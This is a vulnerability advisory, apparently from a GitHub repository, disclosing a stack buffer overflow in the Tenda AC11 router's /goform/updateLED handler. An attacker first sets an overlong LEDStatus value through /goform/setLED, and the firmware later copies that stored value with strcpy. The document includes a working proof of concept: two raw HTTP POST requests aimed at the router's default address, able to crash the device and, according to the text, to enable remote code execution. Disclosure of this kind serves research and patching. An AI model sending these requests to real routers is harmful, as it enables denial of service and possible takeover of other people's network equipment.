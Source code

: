 # Tenda Router AC11 Vulnerability

This vulnerability lies in the `/goform/updateLED` page which influences the lastest version of Tenda Router AC11. (FYI, lastest version of this product is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html))

## Vulnerability description

There is a stack buffer overflow vulnerability in function `sub_800D5204` (page `/goform/updateLED`).

This function uses `strcpy` to copy the string pointed by `v3` into a stack buffer pointed by `v8`. `v3` is directly retrived from the nvram variable `led_ctl_type` without any security check.

![1](1.PNG)

the `led_ctl_type` variable can be controlled by attacker by calling the function `sub_800D50A4`(page `/goform/setLED`) which gets in a parameter called `LEDStatus` into varialbe `v8`. If `v8` is different from the original value of nvram variable `led_ctl_type` (variable `v9`),then the nvram variable `led_ctl_type` will be set as `v8`

![2](2.PNG)

So by first setting the `LEDStatus` and then requesting the page `/goform/updateLED`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## POC

```plain
POST /goform/setLED HTTP/1.1
Host: 192.168.0.1
Content-Length: 1043
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&LEDStatus=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&LEDCloseTIme=10&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```

```plain
POST /goform/updateLED HTTP/1.1
Host: 192.168.0.1
Content-Length: 103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

## Acknowledgment

Credit to [@Yu3H0](https://github.com/Yu3H0), [@leonW7](https://github.com/leonW7) , and [@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.
